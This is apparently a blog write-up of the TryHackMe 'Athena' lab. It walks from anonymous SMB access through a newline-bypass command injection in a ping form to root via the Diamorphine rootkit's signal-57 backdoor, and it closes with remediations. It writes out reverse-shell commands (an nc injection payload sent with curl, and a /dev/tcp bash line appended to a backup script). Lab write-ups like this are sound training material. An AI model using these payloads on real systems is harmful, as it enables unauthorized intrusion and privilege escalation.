+++
date = '2026-07-25T19:35:00+03:00'
draft = false
title = 'Athena — TryHackMe'
tags = ["TryHackMe", "Linux", "SMB", "Command Injection", "Privilege Escalation", "Kernel Module", "Diamorphine", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

This writeup details the attack path taken to compromise the Athena box from TryHackMe. The attack chain began with SMB anonymous access discovery, which led to credential and endpoint leakage. I exploited a command injection vulnerability on a custom web application to gain initial access. I achieved lateral movement by abusing a scheduled backup script, and obtained root by triggering a hidden function in a kernel rootkit (Diamorphine) via a specific signal.

## Step 1: Reconnaissance and Enumeration

The assessment began with an nmap scan against the target to identify running services and potential entry points.

```
nmap -sV -sC -p- <target-ip>
```

```
PORT    STATE SERVICE     REASON         VERSION
80/tcp  open  http        syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4
```

**Key Findings:**

- Three open ports identified: HTTP (80), NetBIOS (139), and SMB (445).
- The hostname was identified as ROUTERPANEL via NetBIOS enumeration.
- SMB message signing was enabled but not required.
- No Conficker infection detected.

The web server on port 80 displayed a simple landing page with no significant functionality.


### SMB Enumeration

During SMB enumeration, I found that the server allowed **anonymous access**.



I listed the available shares using tools like **smbclient**, **enum4linux-ng**, or **nxc**, which showed accessible directories including a public share.



### Discovering the Endpoint

Within the public SMB share, I recovered a file containing a message directed at the admin. This file revealed a hidden web endpoint.





## Step 2: Initial Access

### Exploiting the Discovered Endpoint

Navigating to the newly discovered endpoint on the web application, I found a ping utility.



I tested the ping utility by pinging Google to confirm its functionality.



### Command Injection

I attempted to inject OS commands into the ping parameter, but a basic input filter blocked the payload.



I switched to **curl** for more granular control over the request, which allowed me to bypass client-side restrictions.



After multiple input attempts yielded no results, I tested a **newline character (`%0a`)** injection. Using URL-encoded newline characters successfully bypassed the filter and achieved command execution.



I successfully executed the `id` command, confirming command injection.



### Establishing a Reverse Shell

With confirmed command injection, I initiated a reverse shell using **netcat**.

```
curl http://<target-ip>/myrouterpanel/ping.php -X POST -d 'ip=%0a  nc -c /bin/sh <my-ip> 4444 &submit='
```



### Shell Stabilization

The initial shell was unstable, so I stabilized it with the following steps:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
export TERM=xterm
```

Press **Ctrl+Z**, then run:

```
stty raw -echo; fg
```

```
stty rows 38 columns 116
```



## Step 3: Internal Enumeration

### User Enumeration

With a stable shell as `www-data`, I performed user enumeration to identify potential targets for lateral movement.



### Discovering the Backup Script

I searched for writable files and scripts with special permissions and found a backup script:

```
find / -type f -perm -u=s
```



I found that the script `/usr/share/backup/backup.sh` was owned by `www-data` but had execute permissions for the user `athena`. The script's contents showed it was responsible for backing up files from athena's home directory.




## Step 4: Lateral Movement

Since `www-data` had write access to `backup.sh` and `athena` had execute permissions on it, I modified the script to include a reverse shell payload:

```
echo 'bash -i >& /dev/tcp/<my-ip>/4444 0>&1' >> backup.sh
```

When the script was executed (either manually or via a cron job), I received a reverse shell as the `athena` user.



## Step 5: Privilege Escalation

### Analyzing the Kernel Module

With access as `athena`, I identified a suspicious kernel module. Analyzing the binary in **Ghidra** revealed a `diamorphine_init` label — indicating the presence of the **Diamorphine** rootkit.



Within the decompiled code, I found a critical check:

```c
iVar3 = (int)*(undefined8 *)(param_1 + 0x68);
if (iVar3 == 0x39) {
    give_root();
    __x86_return_thunk();
    return;
}
```

The value `0x39` (decimal 57) acts as a trigger. When the rootkit receives signal 57, it calls the `give_root()` function, elevating the current process to root.

### Triggering the Rootkit

I activated the rootkit by sending the specific signal:

```
kill -57 0
```

```
athena@routerpanel:/$ id
uid=0(root) gid=0(root) groups=0(root),1001(athena)
```

```
root@routerpanel:/# whoami
root
```

## Conclusion

This box demonstrated a full compromise from enumeration to root through the following attack chain:

1. **SMB anonymous access** leaked a file containing a hidden web endpoint.
2. **Command injection** on the ping utility provided initial code execution as `www-data`.
3. **Abusing a writable backup script** allowed lateral movement to the `athena` user.
4. **Triggering the Diamorphine rootkit** via a signal-based backdoor achieved root access.

To secure the environment, the following remediations are recommended:

- **Disable SMB anonymous access** to prevent unauthorized file sharing access.
- **Sanitize all user inputs** on web applications to prevent command injection vulnerabilities.
- **Audit file permissions** regularly and ensure scripts are not writable by lower-privileged users.
- **Monitor for kernel rootkits** using tools like `rkhunter` or `chkrootkit` and verify kernel module integrity.
